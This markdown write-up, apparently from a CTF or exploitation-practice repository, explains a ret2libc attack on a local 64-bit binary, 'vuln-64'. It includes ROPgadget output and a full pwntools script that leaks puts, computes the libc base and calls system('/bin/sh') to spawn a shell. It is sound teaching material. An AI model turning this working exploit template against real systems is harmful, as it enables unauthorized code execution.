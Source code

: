 # 🧨 ret2libc Exploit Write-up — 64-bit Binary (`vuln-64`)

## 🔍 Goal

Exploit a vulnerable 64-bit binary to spawn a shell using a **ret2libc** technique by:

* Leaking a libc function address (`puts`)
* Calculating the base address of `libc`
* Calling `system("/bin/sh")` with proper stack alignment

---

## 📄 Binary Details

| Protection   | Status            |
| ------------ | ----------------- |
| Architecture | 64-bit (x86\_64)  |
| PIE          | ❌ No (Fixed base) |
| NX           | ✅ Enabled         |
| Stack Canary | ❌ None            |
| RELRO        | Partial           |
| RWX Segments | ✅ Present         |

---

## 🧠 Exploit Strategy (ret2libc)

We exploit a **buffer overflow vulnerability** to:

1. Leak the address of `puts()` from the GOT.
2. Calculate the **libc base address** by subtracting the offset of `puts` from the leak.
3. Construct a new ROP chain to call:

   ```c
   system("/bin/sh");
   ```

   using resolved libc addresses.

---

## 🧰 Gadgets Used

* `pop rdi; ret` — to set up the first argument in `rdi` for function calls.
* `ret` — to align the stack (important for 64-bit glibc).

These were found using tools like `ROPgadget`:

```bash
ROPgadget --binary vuln-64 | grep rdi
0x0000000000401042 : fisubr dword ptr [rdi] ; add byte ptr [rax], al ; push 1 ; jmp 0x401020
0x00000000004010a6 : or dword ptr [rdi + 0x404038], edi ; jmp rax
0x00000000004011cb : pop rdi ; ret   # <--- this is what we will use
```

or programmatically with:


```python
rop = ROP(elf)
POP_RDI = 0x4011cb  # hardcoded manually found
RET = rop.find_gadget(['ret'])[0]  # dynamic
```





---

## 📜 Final Exploit Code

```python
from pwn import *

elf = context.binary = ELF('./vuln-64')
libc = elf.libc
p = process()

# Hardcoded pop rdi; ret gadget
POP_RDI = 0x4011cb

# Dynamically find a ret gadget for stack alignment
rop = ROP(elf)
RET = rop.find_gadget(['ret'])[0]

# === Stage 1: Leak puts address ===
p.recvline()  # skip any banner/prompt

payload = flat(
    b'A' * 40,           # overflow buffer
    POP_RDI,             # pop rdi; ret
    elf.got['puts'],     # argument: puts@GOT
    elf.plt['puts'],     # call puts
    elf.sym['main']      # return to main for stage 2
)

p.sendline(payload)

# Read the leaked puts address
puts_leak = u64(p.recvuntil(b'\n').strip().ljust(8, b'\x00'))
log.success(f'Leaked puts address: {hex(puts_leak)}')

# Calculate libc base address
libc.address = puts_leak - libc.sym['puts']
log.success(f'Libc base: {hex(libc.address)}')

# === Stage 2: Call system("/bin/sh") ===

# Find "/bin/sh" in libc
bin_sh = next(libc.search(b'/bin/sh\x00'), None)
if not bin_sh:
    log.error("Couldn't find /bin/sh in libc!")
    exit(1)

# Final payload: ROP chain to call system("/bin/sh")
payload = flat(
    b'A' * 40,
    POP_RDI,
    bin_sh,
    RET,                # stack alignment fix
    libc.sym['system'],
    libc.sym['exit']
)

p.sendline(payload)
p.interactive()
```

---

32-bit: Addresses are 4 bytes, so you use `u32(p.recv(4))` directly — no padding needed.
![click](../32-bit/) here to see the 32 bit

64-bit: libc addresses are often only 6 bytes long, meaning they are preceded with 0x0000, so pad with 2 null bytes: `u64(p.recv(6) + b'\x00\x00')`.




## Outcome
![result](../img/64_result.png)

---
















